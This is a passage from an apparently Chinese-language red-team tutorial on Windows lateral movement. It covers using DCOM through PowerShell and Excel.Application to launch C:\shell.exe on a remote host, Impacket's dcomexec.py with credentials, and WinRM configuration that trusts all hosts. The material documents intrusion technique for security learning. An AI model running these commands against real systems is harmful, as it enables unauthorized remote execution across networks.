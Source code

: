 使用条件：适用于**Windows 10和Windows Server 2012 R2**等版本的系统。

```plain
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例: 
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")) 

# 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程: $com.Document.Application.shellExecute("C:\shell.exe") 

# 完整的命令: 
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")).Document.Application.shellExecute("C:\shell.exe")
```

### [Impacket里的dcomexec.py脚本](#toc_impacketdcomexecpy)

Impacket 里面提供的 dcomexec.py 脚本可以提供一个类似于 wmiexec.py 脚本的半交互式shell，但使用的是DCOM，目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。

命令格式如下：

```plain
./dcomexec.py domain/username:password@ip 
./dcomexec.py domain/username:password@ip <command>
```

# [WinRM的利用](#toc_winrm)

WinRM是通过执行WS-Management协议（用于远程软件和硬件管理的Web服务协议）来实现远程管理的，允许处于一个共同网络内的Windows计算机彼此之间互相访问和交换信息，对应的端口是5985。在一台计算机启用WinRM服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过WinRM对其进行远程管理了。

**只有在Windows Server 2008以上版本的服务器中，WinRm服务才会自动启动。**

**在利用WinRM进行横向移动时，需要拥有远程主机的****管理员凭据信息****。**

## [通过WinRM执行远程命令](#toc_winrm_1)

Windows远程管理提供了两个工具：  
① Winrs，允许远程执行命令的命令行工具，利用了WS-Manage协议  
② Winrm（Winrm.cmd)，内置系统管理命令行工具，允许管理员配置本机的WinRM服务。

在默认情况下，无法通过WinRM连接到目标系统。可能出现错误：Winrs error：WinRM客户端无法处理该请求。可以将默认身份验证与IP地址结合使用：  
① 传输为HTTPS或目标位于TrustedHosts列表中，并且提供显式凭据  
② 使用Winrm.cmd配置TrustedHosts。

执行以下命令，将目标地址添加到TrustedHosts中：

```plain
winrm set winrm/config/client @{TrustedHosts="192.168.1.1"} 

set-Item WSMan:localhost\client\trustedhosts -value *    
# 通过powershell，信任所有主机
```

## [Winrs](#toc_winrs)

